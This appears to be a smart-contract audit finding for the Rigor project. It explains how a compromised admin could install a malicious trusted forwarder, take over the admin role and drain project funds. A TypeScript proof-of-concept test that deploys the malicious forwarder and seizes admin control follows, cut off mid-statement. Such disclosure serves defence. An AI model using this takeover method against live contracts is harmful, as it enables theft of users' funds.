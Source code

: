 *   The computer which the admins are using has been hacked
    *   Even if a hardware wallet is used, the attacker can still replace the data sent to the wallet the next time the admin has to sign a tx (whether it's a meta or normal tx)
*   The website/software where the meta tx data is generated has been hacked and attacker modifies the data for tx
*   A malicious website tricks the admin into signing a meta tx to replace the admin or forwarder

Since the forwarder has the power to do everything in the system , once an attacker manages to replace it with a malicious forwarder, he can do whatever he wants withing minutes:

*   The forwarder can replace the admin
*   The forwarder can drain all funds from all projects by changing the subcontractor and marking tasks as complete, or adding new tasks / changing task cost as needed.

Even when signatures are required, you can bypass it by using the `approveHash` function.

### Proof of Concept

Here's a PoC for taking over and running the `Project.setComplete()` function (I haven't included a whole process of changing SC etc. since that would be too time consuming, but there shouldn't be a difference between functions, all can be impersonated once you control the forwarder).

The PoC was added to [projectTests.ts#L1109](https://github.com/code-423n4/2022-08-rigor/blob/5ab7ea84a1516cb726421ef690af5bc41029f88f/test/utils/projectTests.ts#L1109), and is based on the 'should be able to complete a task' test.

```typescript


  it('PoC forwarder overtake', async () => {
    const attacker = signers[10];


    // deploy the malicious forwarder
    const maliciousForwarder = await deploy<MaliciousForwarder>('MaliciousForwarder');
    const adminAddress = await homeFiContract.admin();
    const adminSigner = getSignerByAddress(signers, adminAddress);
    // attacker takes over
    await homeFiContract.connect(adminSigner).setTrustedForwarder(maliciousForwarder.address);
      
    // attacker can now replace the admin, so that admin can't set the forwarder back
    let { data } = await homeFiContract.populateTransaction.replaceAdmin(
      attacker.address
    );
    let from = adminAddress;
    let to = homeFiContract.address;
    if (!data) {
      throw Error('No data');
    }
    let tx = await executeMetaTX(from, to, data);

    // assert that admin has been replaced by attacker
    expect(await homeFiContract.admin()).to.be.eq(attacker.address);

    // attacker can now execute setComplete() using the approveHash() method

    const taskID = 1;
    const _taskCost = 2 * taskCost;
    const taskSC = signers[3];
    let completeData = {
      types: ['uint256', 'address'],
      values: [taskID, project.address],
    };
    const [encodedData, hash] = await encodeDataAndHash(completeData);
    await mockDAIContract.mock.transfer
      .withArgs(taskSC.address, _taskCost)
```